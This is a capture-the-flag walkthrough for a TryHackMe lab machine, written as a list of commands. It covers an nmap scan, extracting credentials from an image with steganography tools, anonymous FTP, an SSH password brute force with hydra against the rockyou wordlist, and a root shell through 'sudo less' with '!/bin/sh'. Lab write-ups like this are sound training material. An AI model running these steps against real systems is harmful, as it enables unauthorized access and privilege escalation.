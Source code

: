 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/brooklynninenine
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,80 <IP> -oN ports`

## Port 80 - website recognition
- `wget http://<IP>/brooklyn99.jpg` to download the img
- `stegcracker brooklyn99.jpg` to crack the passphrase
- `steghide extract -sf brooklyn99.jpg`
- Extracted credentials, saved them in `/credentials` 

## Port 21 - ftp-anon: anonymous FTP login allowed
- `cd content`
- `ftp <IP>` (name: `anonymous`, password: `<Enter>`)
- Inside the FTP shell:
  - `ls`
  - `get note_to_jake.txt` to download the resource
- `cat note_to_jake.txt` 
- Found users: `amy` `holt` `jake`

## Port 22 - SSH 
- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP>`
- Cracked `jake`'s SSH password, saved in `/credentials` 
- `ssh jake@10.10.67.99` (password: `<password`)
- Inside the SSH shell:
  - `pwd` (we are into `/jake`)
  - `cd ..` to come back into `/home` folder
  - Found `/amy` `/holt` `/jake` folders
  - `cd holt`
  - `cat user.txt` 
    - Found the `USER FLAG`
  
## Port 22 - SSH - Priviledges escalation
- Inside the SSH shell:
  - Cannot access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `/usr/bin/less`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- Inside the SSH shell:
  - `sudo less /etc/profile`
  - `!/bin/sh`
  - `whoami` to check if I'm the root user now
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`